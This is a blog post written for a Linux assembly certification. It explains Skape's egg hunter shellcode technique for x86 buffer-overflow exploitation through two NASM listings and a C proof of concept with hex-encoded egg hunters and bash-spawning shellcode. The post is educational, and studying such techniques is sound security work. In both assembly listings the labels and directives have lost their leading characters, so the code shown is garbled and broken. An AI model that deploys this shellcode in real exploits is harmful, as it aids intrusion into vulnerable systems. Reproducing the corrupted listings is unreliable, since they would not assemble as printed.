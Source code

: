 ```yaml
---
layout: post
title: " Skape's Egg Hunter (null-free/Linux x86) "
date: 2017-05-02 12:00:00
share: true
comments: true
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 3_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  
  
_Note: Pretty much the entire post is extracted from Skape's paper, it's extremely well-written and is a must read._  

## What is an egghunter?

  
Assume you found a buffer overflow vulnerability with a very small space that you control that is less than that of a bind/reverse shell, how can you utilize this space? The following concept is discussed in depth by Skape in [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) where the actual payload is marked by an "egg" (usually 4-8 bytes that are very unlikely to be found in memory) and the small controllable space contains an "egghunter" which will search for that egg in the virtual address space.  
  
Skape discussed 3 different implementations for Linux, I implemented both `access(2)` and `access(2) revised`.  
  

## What are the requirements of an egg hunter?

* **Small size**: Since the main reason an egg hunter is needed is that we're tight on space, the smaller the shellcode is, the better. This is achieved by writing a very optimized shellcode.  

* **Robustness**: It should be able to scan the entire virtual space fast without failing on unallocated memory. This is achieved through multiple methods on Linux, discussed below.  
  
* If you directly try to read an unallocated memory in Linux, program will throw a SIGSEGV and crash. Instead, Skape recommended an out of the box suggestion, which is abusing the `access()` syscall.  
  
```cpp
int access(const char *pathname, int mode);  
```

Passing an address instead of pathname will check if the memory is allocated, if not it won't throw a `SIGSEGV`, allowing us to scan the memory safely.  
  
One more thing is that we need to make sure that the egg hunter won't ultimately point at itself, that's why the code will check the presence of the egg twice in a row before concluding that this is our payload.  

---

## How does the egg hunter work?

#### Method 1: access(2)  
  
```nasm
; Skape's egghunter: access(2)

al _start:  

ion .text  

rt:  
mov ebx, 0x50905090     ; Store EGG in ebx  
xor ecx, ecx            ; Zero out ECX  
mul ecx                 ; Zero out EAX and EDX  
age:                    ; JMP to increment page number  
or dx, 0xfff            ; Align page address  
ddr:                    ; JMP to increment address  
inc edx                 ; Go to next address  
pushad                  ; Push general registers onto stack  
lea ebx, [edx+4]        ; [edx+4] so we can compare [edx] and [edx+4] at the same time  
mov al, 0x21            ; syscall for access()  
int 0x80                ; call access() to check memory location [EBX]  
cmp al, 0xf2            ; Did it return EFAULT?  
popad                   ; Restore registers  
jz IncPage              ; access() returned EFAULT, skip page  
cmp [edx], ebx          ; initialized memory, check if EGG is in [edx]  
jnz IncAddr             ; EGG isn't in [edx], visit next address  
cmp [edx+4], ebx        ; EGG is found in [edx], is it in [edx+4] too?  
jne IncAddr             ; Boohoo! It wasn't. Visit next address  
jmp edx                 ; [edx][edx+4] contain EGGEGG, we found our shellcode! Execute meaningless EGGEGG instructions then our payload  
```    

  
#### Method 2: access(2) revised  
 
```nasm
; Skape's egghunter: access(2) revised  


al _start  

ion .text  

rt:  
xor edx, edx            ; EDX = 0  
age:  
or dx, 0xfff            ; Align page address  
ddr:  
inc edx                 ; Go to next address  
lea ebx, [edx+0x4]      ; [edx+4] so we can compare [edx] and [edx+4] at the same time  
push byte 0x21          ; syscall for access()  
pop eax  
int 0x80                ; call access() to check memory location [EBX]  
cmp al, 0xf2            ; Did it return EFAULT?  
jz IncPage              ; It did, skip page  
mov eax, 0x50905090     ; Store EGG in EAX  
mov edi, edx            ; Move EDX to EDI for scasd operation  
scasd                   ; Check if [EDI] == EAX then increment EDI  
jnz IncAddr             ; It isn't, increment address  
scasd                   ; Check if [EDI] == EAX then increment EDI  
jnz IncAddr             ; It isn't, increment address  
jmp edi                 ; We found our Egg! JMP to EDI, which points directly to our shellcode  
```

---

## Proof of concept

```cpp
/*  
 egghunter.c  
 By Abatchy  
 gcc egghunter.c -fno-stack-protector -z execstack -o shellcode.out  
*/  
  
#include <stdio.h>  
#include <string.h>  
  
#define EGG "\x90\x50\x90\x50"  
  
// Spawns a bash shell  
unsigned char secret[] = EGG EGG  
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";  
  
// Skape's egghunter: access(2)  
unsigned char egghunter1[] =   
"\xbb"  
EGG  
"\x31\xc9"  
"\xf7\xe1"  
"\x66\x81\xca\xff\x0f"  
"\x42"  
"\x60"  
"\x8d\x5a\x04"  
"\xb0\x21"  
"\xcd\x80"  
"\x3c\xf2"  
"\x61"  
"\x74\xed"  
"\x39\x1a"  
"\x75\xee"  
"\x39\x5a\x04"  
"\x75\xe9"  
"\xff\xe2";  
  
// Skape's egghunter: access(2) revised  
unsigned char egghunter2[] =   
"\x31\xd2"  
"\x66\x81\xca\xff\x0f"  
"\x42"  
"\x8d\x5a\x04"  
"\x6a\x21"  
"\x58"  
"\xcd\x80"  
"\x3c\xf2"  
"\x74\xee"  
"\xb8" EGG  
"\x89\xd7"  
"\xaf"  
"\x75\xe9"  
"\xaf"  
"\x75\xe6"  
"\xff\xe7";  
  
int main()  
{  
    printf("Egg is at %p\n", secret);  
    printf("Egghunter size: %d\n", strlen(egghunter1));  
    int (*ret)() = (int(*)())egghunter1;  
    ret();  
}  
```

  
Successfully running this code will search for the `EGG` in the memory and execute the payload, throwing a bash shell. Using `strace ./program` is a nice way to check if it's searching memory properly, or attaching GDB.  
  
\- Abatchy
